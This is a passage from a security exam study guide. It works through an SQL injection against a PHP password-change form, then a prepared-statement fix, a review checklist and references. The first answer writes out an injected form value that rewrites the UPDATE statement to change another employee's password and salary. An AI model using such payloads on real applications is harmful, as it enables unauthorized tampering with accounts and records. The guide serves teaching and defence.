> **Question summary:** Use the displayed employee-password-change form and PHP code to set employee EID100’s password to you_are_hacked and salary to 10$, without knowing the old password.

The original PHP interpolates three fields into:

```sql
UPDATE employee SET password='NEW'
WHERE eid='EID' AND password='OLD'
```

Use these form values:

```text
EID:          EID100
Old Password: anything
New Password: you_are_hacked', salary=10 WHERE eid='EID100' -- 
```

The space after `--` is intentional. The resulting single statement is:

```sql
UPDATE employee
SET password='you_are_hacked', salary=10
WHERE eid='EID100' -- '
WHERE eid='EID100' AND password='anything'
```

The injected comma adds a second assignment, the injected WHERE targets EID100, and the comment removes the intended old-password predicate. The result sets the password to the requested string and salary to 10 (the question’s dollar amount). It assumes the shown MySQL/PHP string-interpolation behavior and that the database account has those update permissions.

**Exam tip.** A payload consisting only of `' OR 1=1` in the old-password field may bypass a check but does not itself add the required salary assignment. Show both requested effects in the resulting SQL.

<a id="s66"></a>
### S66 · 2018–19 · Q11(b)

**Rewrite vulnerable PHP using prepared statements · 10 marks**

Original: [root question PDF, page 30](../../CSE405-Security_Merged.pdf#page=30). Sitting date: 24 October 2019. Printed Section B.

> **Question summary:** Change changepasswd.php to use a prepared statement so the SQL injection in Q11(a) is prevented.

A direct prepared-statement repair of the paper’s schema is:

```php
<?php
$eid = $_POST['EID'];
$oldpwd = $_POST['OldPassword'];
$newpwd = $_POST['NewPassword'];

// $conn is an existing mysqli connection.
$stmt = $conn->prepare(
    'UPDATE employee SET password = ? WHERE eid = ? AND password = ?'
);
$stmt->bind_param('sss', $newpwd, $eid, $oldpwd);
$stmt->execute();
$stmt->close();
?>
```

Bind values **after** preparing the fixed SQL. Question marks are placeholders, not quoted string fragments. The attempted `', salary=10 ...` is now stored/compared as data inside one value; it cannot add a column assignment or rewrite WHERE. PHP’s bind/execute interface is documented in [the mysqli prepared-statement manual](https://www.php.net/manual/en/mysqli.quickstart.prepared-statements.php).

**Practical password-storage correction.** The snippet preserves the exam’s plaintext-password model solely to show the SQL-boundary repair. A proper implementation retrieves the authenticated employee’s stored password hash, verifies the submitted old password with `password_verify`, computes the new hash with `password_hash`, then performs `UPDATE employee SET password_hash=? WHERE eid=?` using bound values. Keep authenticated identity server-side, require CSRF protection and revoke affected sessions according to policy. Salary changes should use a separate authorized workflow.

**Exam tip.** Calling prepare on an already interpolated SQL string does not repair injection. The SQL structure must be fixed before untrusted values enter.

## Review checklist

- For a numerical answer: declare conventions, show intermediate steps, reduce modulo the right modulus, then check by inversion/substitution.
- For a security claim: identify what the attacker knows/can change, what is trusted, the exact guarantee, and any freshness requirement.
- For SQL injection: expand the final statement; quote termination and comments must match the given query.
- For a browser attack: label the script origin, destination server, victim cookie and action; do not assume SOP blocks every cross-origin request.
- For a fix: explain the mechanism. “Use encryption” does not repair identity trust, and “use a MAC” does not automatically prevent replay.

## Further primary references

The local exam papers and supplied lectures/notes define the questions. These references clarify selected algorithm/interface details; the worked algebra and toy examples in this guide are derived for the specific papers.

- [RFC 2104: HMAC definition, block-length key handling](https://www.rfc-editor.org/rfc/rfc2104)
- [NIST SP 800-90A Rev. 1: HMAC-DRBG algorithm](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-90Ar1.pdf)
- [RFC 5246: historical TLS 1.2 handshake and record protection](https://www.rfc-editor.org/rfc/rfc5246)
- [RFC 5869: HKDF](https://www.rfc-editor.org/rfc/rfc5869)
- [Stanford: quadratic residues](https://crypto.stanford.edu/pbc/notes/numbertheory/qr.html)
- [PHP mysqli: prepared statements](https://www.php.net/manual/en/mysqli.quickstart.prepared-statements.php)
- [OWASP: SQL injection prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [OWASP: clickjacking defenses](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html)
- [OWASP: CSRF prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
